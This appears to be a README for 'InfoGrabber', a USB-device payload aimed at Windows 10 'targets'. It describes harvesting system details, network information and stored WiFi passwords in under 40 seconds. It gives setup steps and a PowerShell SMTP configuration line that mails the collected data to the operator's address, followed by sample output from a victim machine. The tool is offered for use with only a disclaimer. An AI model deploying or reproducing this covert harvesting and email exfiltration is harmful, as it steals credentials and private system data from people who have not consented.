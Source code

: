 Author     : 0rion5 B3lt, (original creator Simen Kjeserud), Gachnang, Dannyk999
Version    : v2.1
Title      : Comprehensive Information Gathering (InfoGrabber)
Target     : Windows 10

Description: Gathers all sorts of information on the target in under 40 seconds. Collects information like OS, Vendor, 
Network Information, Hardware Details, Software Details, Process Details, WIFI passwords, USB device VID & PID, System BIOS Etc...

Requirements: Internet Connection.

Configuration: Input your SMTP info into the QuactusInfoGrabber.txt file. Configure the areas described below;
QuactusInfoGrabber.txt > Line 22:Print:$SMTPServer = 'SMTP.MAIL.COM HERE', $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('YOUREMAILHERE', 'YOURPASSWORD HERE'), & $ReportEmail.From = 'YOUREMAIL HERE'; $ReportEmail.To.Add('YOUREMAIL HERE');

Instructions : 1. Configure the QuactusInfoGrabber.txt with your information
               2. Upload The Payload to the Cactus
               Use at your discretion.
               
Disclaimer : I am in no way responsible for how this payload is used or how others use this payload. reference your local laws & abide them

OUTPUT WILL LOOK SIMILAR TO THIS.
==================================================================
========================BASIC    DETAILS==========================
==================================================================

COMPUTER NAME                 : COMPUTERNAME-PC
==================================================================
Operating System Installed    : Microsoft Windows 10 Pro
Operating System Architecture : 64-bit
Version                       : 10.0.######
Windows Exerience Score       : 5.9
Serial Number                 : #####-#####-#####-#####
Install date                  : 12/19/2018 02:37:08
Last Boot                     : 01/10/2019 11:48:56
Local Time                    : 01/19/2019 15:12:18

SYSTEM PRODUCT DETAILS
==================================================================
Vendor                        : DELL
Model                         : ABC-###
Identifying Number            : ##########
UUID                          : ########-####-####-####-############
Name                          : COMPUTERNAME-PC
PrimaryOwnerName              : JULIA
Domain                        : WORKGROUP
